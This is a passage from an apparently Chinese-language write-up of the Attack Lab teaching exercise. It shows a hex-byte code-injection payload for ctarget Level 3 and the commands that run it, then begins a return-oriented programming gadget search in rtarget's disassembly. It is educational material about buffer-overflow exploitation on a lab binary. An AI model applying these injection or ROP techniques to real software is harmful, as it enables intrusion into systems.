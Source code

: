 ```bash
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

然后运行：

```bash
./hex2raw < p3.txt > p3
./ctarget -qi p3
```

运行成功了！

![1_level_3.png](https://s2.loli.net/2025/05/31/fvLcbY23JyRCMdW.png)

---

## 返回导向编程攻击

这一部分主要实现了两种防止攻击的手段：

- **栈地址随机化**
- **限制的可执行代码区域**

这导致我们的攻击变得困难起来了，但是文档提供了**ROP**的攻击手段。

### Level 2

我们有几个最基本的代码：
`ret`: `0xc3`
`nop`: `0x90`

我们要找到能将`cookie`作为第一个参数传入`touch2()`的**Gadgets**。先查看`rtarget`的汇编代码：

```bash
objdump -d rtarget > rtarget.s
```

我们可以先把`cookie`存到某一个寄存器里面，然后再将这个寄存器存到`%rdi`里面。我们可以写出如下汇编代码：

```asm
popq %rax
ret

movq %rax, %rdi
ret
```

为什么选用的是`%rax`？因为我们可以找到：

```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```
